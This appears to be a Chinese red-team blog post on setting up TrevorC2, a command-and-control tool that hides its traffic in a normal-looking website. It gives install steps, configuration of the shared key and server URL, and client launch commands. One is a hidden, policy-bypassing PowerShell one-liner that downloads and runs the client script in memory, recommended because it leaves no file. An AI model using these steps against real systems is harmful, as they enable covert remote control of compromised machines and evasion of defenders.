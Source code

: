 ```yaml
---
title: "goDoh"
layout: post
date: 2019-09-05
image: /assets/images/markdown.jpg
headerImage: false
tag:
- RedTeam
- 权限维持
category: blog
blog: true
author: DshSec
description: goDoh
---
```


### Trevorc2

#### 0x00(介绍)：
+ 项目地址：https://github.com/trustedsec/trevorc2  
+ 项目介绍：TrevorC2是一种客户端/服务器模型，用于通过可浏览的网站隐藏命令和控制。由于时间的不同和不使用POST请求进行数据提取，使得检测变得更加困难。TrevorC2分为客户端和服务器。在此项目中，提供了三种形式的客户端，包括python、C#、powershell版本。trevorc2_client.py支持Windows，MacOS和Linux。您可以对Windows进行字节编译以获得可执行文件。如果是使用windows，也可以使用trevorc2_client.ps1利用powershell进行使用。  

#### 0x01(安装):
安装时需要python环境，笔者测试过程中为python3环境  
```
git clone https://github.com/trustedsec/trevorc2.git
cd trevorc2
pip install -r requirements.txt
```
>*TIPS:*
在使用过程中服务器端无需太多的配置修改，建议修改CIPHER参数即可，该参数为链接秘钥，客户端和服务器端应当保持一致。
![](imgclip.png "imgclip.png")  
客户端中需要将配置文件中的$SITE_URL配置为自己服务器的站点。http://服务器IP
#### 0x02(使用):
服务端：
```
python trevorc2_server.py
```
客户端：
1. 使用powershell:  
```
	powershell.exe -nop -w hidden -ep Bypass -c IEX(New-ObjectNet.WebClient).DownloadString("[trevorc2_client.ps1文件远程地址]");
	powershell.exe -nop -w hidden -ep Bypass -c [trevorc2_client.ps1的本地路径]
```
建议使用第一种通过远程下载文件到内存中然后执行的方式进行，可以实现无文件。
2. 使用python
```
	python trevorc2_client.py
```
